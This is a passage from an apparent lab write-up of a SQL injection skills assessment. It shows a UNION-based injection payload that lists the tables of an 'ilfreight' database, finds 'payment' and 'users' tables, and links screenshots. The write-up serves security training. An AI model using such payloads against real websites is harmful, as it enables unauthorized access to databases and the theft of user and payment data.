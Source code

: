 [![Enumerating databases](/assets/sqlifundamentalsskillsassessment/8_databases.png)](/assets/sqlifundamentalsskillsassessment/8_databases.png){:target="_blank"}
{:refdef}

We are still going to examine the **ilfreight** database by injecting the following payload:

{% highlight sql %}

' UNION SELECT 'a', table_schema, table_name, 'd', 'e' FROM information_schema.tables WHERE table_schema='ilfreight';-- -

{% endhighlight %}

We can see that it is storing two tables: **payment** and **users**.

{:refdef: style="text-align: center;"}
[![Enumerating tables in the first database](/assets/sqlifundamentalsskillsassessment/9_ilfreight.png)](/assets/sqlifundamentalsskillsassessment/9_ilfreight.png){:target="_blank"}
{:refdef}
